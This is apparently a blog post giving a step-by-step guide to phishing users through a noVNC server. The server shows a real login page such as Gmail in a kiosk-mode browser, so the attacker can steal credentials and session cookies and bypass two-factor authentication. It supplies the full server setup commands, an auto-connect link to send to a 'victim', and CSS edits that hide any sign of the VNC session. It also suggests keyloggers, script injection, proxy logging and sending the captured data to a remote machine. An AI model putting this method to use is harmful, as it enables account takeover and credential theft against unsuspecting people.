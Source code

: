 ```yaml
---
layout: post
title: Exploiting noVNC for 2FA Bypass
date: 2025-01-29
categories: [Exploits, noVNC]
tags: [Exploits, noVNC, 2FA Bypass]
permalink: /posts/Exploiting-noVNC-for-2FA-Bypass/
image:  
  path: /assets/img/thumbnails/No-VNC.png
---
```




# **Using noVNC for Credential Acquisition and Bypassing 2FA**

**noVNC** is both a **JavaScript library for VNC clients** and an application built on top of this library. Compatible with **any modern browser**, including mobile versions for iOS and Android, noVNC allows the web browser to function as a **VNC client**, enabling **remote access to a machine**.

So, how can we use noVNC to **acquire credentials** and **bypass 2FA**? Here's the process:

1. Set up a server with noVNC.
2. Start **Chromium** (or any other browser) in **Kiosk mode**.
3. Direct it to the desired website for user authentication (e.g., `accounts.google.com`).
4. Send the link to the target user. When they click the URL, they will access the **VNC session** without realizing it.
5. Since Chromium is configured in **Kiosk mode**, the user experience will appear as a normal web page.

---

## **Exploitation Possibilities**

The exploitation possibilities of this method are **vast**:

- **Inject JS** into the browser.
- Use an **HTTP proxy** connected to the browser to log all activities.
- **Terminate the VNC session** after user authentication.
- Capture the **browser session token** (Right-click > Inspect > Application > Cookies) after the user disconnects.
- Run a **background keylogger**.
- Or **get creative** and find other approaches (remember, the server is yours).

---

## **noVNC Setup and Demonstration**

### **1. Deploy a Kali Linux Instance**

Use any **cloud service provider** or deploy locally to set up a Linux machine. I will use **Kali Linux** for this demonstration because I prefer it, but you can choose any other Linux distribution you are comfortable with.

---

### **2. Install TigerVNC**

First, you need to install **VNC software**. I tested two options: **X11vnc** and **TigerVNC**. After several tests, I chose to use **TigerVNC**.

```shell
sudo apt update
sudo apt install tigervnc-standalone-server tigervnc-xorg-extension tigervnc-viewer
```

---

### **3. Set Up a VNC Password**

```shell
vncpasswd
```

On Kali Linux, I didn’t need to create the `xstartup` file, but if you encounter any errors, you can configure it manually.

```shell
nano ~/.vnc/xstartup
```

Paste or write the following:

```bash
#!/bin/sh
xrdb "$HOME/.Xresources"
xsetroot -solid grey
x-terminal-emulator -geometry 80x24+10+10 -ls -title "$VNCDESKTOP Desktop" &
x-window-manager &
# Fix to make GNOME work
export XKL_XMODMAP_DISABLE=1
/etc/X11/Xsession
```

Add execution permissions:

```shell
chmod +x ~/.vnc/xstartup
```

---

### **4. Restart the VNC Server**

Restart the VNC server, choosing the **screen size settings** according to your needs. noVNC automatically adjusts to the browser's screen size, but do your own testing.

```shell
vncserver -depth 32 -geometry 1920x1080
```

---

### **5. Download and Run noVNC**

```shell
git clone https://github.com/novnc/noVNC.git
```

OR

```shell
apt install novnc
```

Now run noVNC **locally** or **publicly**. Here are the commands:

- **Check the VNC server port:**

```shell
vncserver -list
```

Example: `5901`, `5902`, `5903`, etc.

- **Run noVNC:**

```shell
./noVNC/utils/novnc_proxy --vnc localhost:5901
```

- **Set up an SSH tunnel:**

```shell
ssh -L 6080:127.0.0.1:6080 root@server
```

- **Run publicly using port 8081:**

```shell
ufw allow http
./noVNC/utils/novnc_proxy --vnc 0.0.0.0:5901 --listen 8081
```

---

### **6. Access VNC and Run the Browser in Kiosk Mode**

Access your VNC and run the browser in **Kiosk mode**. I used **Chromium**, but you can use whatever suits your needs.

```shell
chromium --no-sandbox --app=https://gmail.com --kiosk
```

---

### **7. Send the URL to the "Victim" to Connect Automatically**

```shell
http://127.0.0.1:6080/vnc.html?autoconnect=true&password=YOUR-PASSWORD
```

The `autoconnect=true&password=VNCPASSWORD` will make the user authenticate automatically. If you want to rename the query parameter, you can modify the `vnc.html` file.

---

### **8. Modify the CSS to Remove Visual Elements**

noVNC displays a **custom loading page**, a **VNC control bar**, and some additional unnecessary visual elements that should be removed.

Open `vnc.html`, find the `divs` below, and add the CSS style shown.

```html
<!-- Hide unnecessary items -->
<div id="noVNC_control_bar_anchor" class="noVNC_vcenter" style="display:none;">
<div id="noVNC_status" style="display:none"></div>

<!-- Makes the loading page white -->
<div id="noVNC_transition" style="background-color:white;color:white">
```

---

## **Important Notes**

- **You are giving remote access to your machine!** It should not have anything valuable stored on it.
- Any logged data should likely be sent to a **remote machine**.
- **Do not use the root account.** Set up a restricted user account that uses the VNC service.
- Configure the **Kiosk mode** more restrictively.
